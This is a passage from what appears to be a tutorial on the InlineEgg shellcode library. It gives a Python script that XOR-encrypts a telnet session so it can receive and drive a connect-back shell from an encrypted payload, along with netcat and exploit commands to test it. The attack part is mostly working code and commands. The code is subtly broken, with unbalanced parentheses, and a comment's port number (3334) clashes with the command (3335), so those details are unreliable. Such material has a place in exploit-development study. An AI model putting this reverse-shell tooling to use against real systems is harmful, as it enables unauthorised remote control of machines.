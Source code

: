    sock.send(toSend)

main()
---------------------------------------------------------

   Of course that for using this last egg a mere netcat is not enough, so here
is a "telnet" that will encrypt and decrypt as needed.

--- xored_shell_client.py -------------------------------
#!/usr/bin/python
import telnetlib
import sys

class CypherTelnet(telnetlib.Telnet):
    def fill_rawq(self):
        old = self.rawq
        telnetlib.Telnet.fill_rawq(self)
        for i in self.rawq[len(old):]:
            old += chr(0x55 ^ ord(i)
        self.rawq = old

    def write(self, buf):
        out = ''
        for i in buf:
            out += chr(0x55 ^ ord(i)
        return telnetlib.Telnet.write(self, out)

if sys.argv[1] == '-l':
   import socket
   t = CypherTelnet()
   sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
   sock.bind((sys.argv[2], int(sys.argv[3])))
   sock.listen(1)
   t.sock, peer = sock.accept()
   print "Connected from %s" % (peer,)
   sock.close()
   t.interact()
else:
   CypherTelnet(sys.argv[1], int(sys.argv[2])).interact()
---------------------------------------------------------

   So, to test this last one do:

gera@violent[1]: nc -v -l -p 3333|strace ./tester      # wait for the sent egg and pipe it to tester (strace helps)
gera@violent[2]: ./xored_shell_client -l 0.0.0.0 3335  # the egg will connect back to you on port 3334
gera@violent[3]: ./example5.py 127.0.0.1 3333          # "exploit" tester listening on port 3333


   That's pretty much it, let me talk just a little about the "design" behind
inlineegg:

There are three main classes:

   Microprocessor
   Syscall
   InlineEgg
